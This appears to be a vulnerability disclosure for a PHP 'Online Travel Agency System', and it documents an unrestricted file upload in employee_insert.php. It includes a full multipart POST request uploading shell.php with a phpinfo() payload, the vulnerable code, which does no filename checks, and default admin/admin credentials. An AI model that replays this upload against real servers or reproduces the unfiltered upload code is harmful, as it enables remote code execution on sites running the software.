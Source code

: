 # [Online Travel Agency System-File upload vulnerabilities-employee_insert.php]

## Basic Information

**[Bug Reporter]:** DililLearngent

**[Application Vendors]:** https://www.sourcecodester.com/online-travel-agency-system-using-php.html

**[Test Environment]:** windows10+apache+php7.0

**[Install]:**

1. start **Apache** and **MySQL**.

2. **Extract** the downloaded source code **zip** file.

3. **Copy** the extracted source code folder and **paste** it into the **www directory**.

4. **Create** a **new database** naming **"travel_agency"**.

5. **Import** the provided **SQL** file. The file is known as **"travel_agency.sql"** located inside the extracted source code folder.

6. **Browse** the **Online Travel Agency System** in a **browser**. i.e. **http://localhost/Travel**

   **Admin Access Information:**

   Username: **admin**
   Password: **admin**

## Bug Information

**[Vulnerability type]:** File upload vulnerabilities

**[Vulnerability Url]:** http://localhost/Travel/admin/employee_insert.php

**[Vulnerability Location]:** /Travel/admin/employee_insert.php

**[Vulnerability Test]:**

1. First visit http://10.142.221.111/Travel/admin/employee.php, display the Add Employee page, fill in the relevant data, and upload a PHP file at the `photo` with the content `<?php phpinfo(); ? >`

   ![](../../img/20230428145644.png)

2. After clicking SUBMIT, get the packet as follows

   ```bash
   POST /Travel/admin/employee_insert.php HTTP/1.1
   Host: 10.142.221.111
   Content-Length: 1163
   Cache-Control: max-age=0
   Upgrade-Insecure-Requests: 1
   Origin: http://10.142.221.111
   Content-Type: multipart/form-data; boundary=----WebKitFormBoundarylHk30v3mO57U1YBo
   User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
   Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
   Referer: http://10.142.221.111/Travel/admin/employee.php
   Accept-Encoding: gzip, deflate
   Accept-Language: zh-CN,zh;q=0.9
   Cookie: PHPSESSID=25ljgqv0ko3gcoh9pgvutde2v2
   Connection: close
   
   ------WebKitFormBoundarylHk30v3mO57U1YBo
   Content-Disposition: form-data; name="userfile"; filename="shell.php"
   Content-Type: application/octet-stream
   
   <?php phpinfo(); ?>
   ------WebKitFormBoundarylHk30v3mO57U1YBo
   Content-Disposition: form-data; name="emp_name"
   
   aaaaa
   ------WebKitFormBoundarylHk30v3mO57U1YBo
   Content-Disposition: form-data; name="emp_contact"
   
   1234567
   ------WebKitFormBoundarylHk30v3mO57U1YBo
   Content-Disposition: form-data; name="emp_email"
   
   212312@gmail.com
   ------WebKitFormBoundarylHk30v3mO57U1YBo
   Content-Disposition: form-data; name="emp_address"
   
   beijing
   ------WebKitFormBoundarylHk30v3mO57U1YBo
   Content-Disposition: form-data; name="emp_reference"
   
   asdasd
   ------WebKitFormBoundarylHk30v3mO57U1YBo
   Content-Disposition: form-data; name="emp_join"
   
   2023-04-28
   ------WebKitFormBoundarylHk30v3mO57U1YBo
   Content-Disposition: form-data; name="emp_close"
   
   2023-04-28
   ------WebKitFormBoundarylHk30v3mO57U1YBo
   Content-Disposition: form-data; name="emp_desc"
   
   none
   ------WebKitFormBoundarylHk30v3mO57U1YBo
   Content-Disposition: form-data; name="employeeform"
   
   submit
   ------WebKitFormBoundarylHk30v3mO57U1YBo--
   ```

   The response results are shown in the figure

   ![](../../img/20230428145804.png)

4. The file is successfully uploaded and the page jumps to employee_view.php, and the path to the file just uploaded is displayed on this page.

   ![](../../img/20230428150022.png)

5. Visit http://10.142.221.111/Travel/admin/user/shell.php

   ![](../../img/20230428150135.png)

**[code analysis]:**

In /Travel/admin/employee_insert.php:

```php
<?php 
//insertion into employee table
    if(isset($_REQUEST['employeeform']))
	{
 
 $image=$_FILES['userfile']['name'];
 $file_size=$_FILES['userfile']['size'];
 $tmp_file_name=$_FILES['userfile']['tmp_name']; 

$uploaddir='user/'.$image;
$uploadimage=$uploaddir;//specify the full path for file;

if(move_uploaded_file($tmp_file_name,$uploadimage))
{
	echo"file upload successfully";
}
else
{
	echo"error occured";
         
}// end of else
```

No filtering is done on uploaded filenames

In /Travel/admin/employee_view.php

```php+HTML
<?php 
  $total=0;
  //RETRIVAL DATA FROM EMPLOYEE TABALE
  $sql="select*from employee";
$result=mysqli_query($con,$sql) or die(mysqli_error($con));
while($row=mysqli_fetch_array($result))
{   
    $emp_picture=$row['emp_picture']; 
	$emp_id=$row['emp_id'];
	$emp_name=$row['emp_name'];
	$emp_contact=$row['emp_contact'];
	$emp_address=$row['emp_address'];
	$emp_reference=$row['emp_reference'];
	$emp_email=$row['emp_email'];
	$emp_jion=$row['emp_join'];
	$emp_close=$row['emp_close'];
	$total=$total+1;

?>

// In line 68
<img src="<?php echo $emp_picture;?>" width="100" height="113" />
```

And the file address is echoed on the page

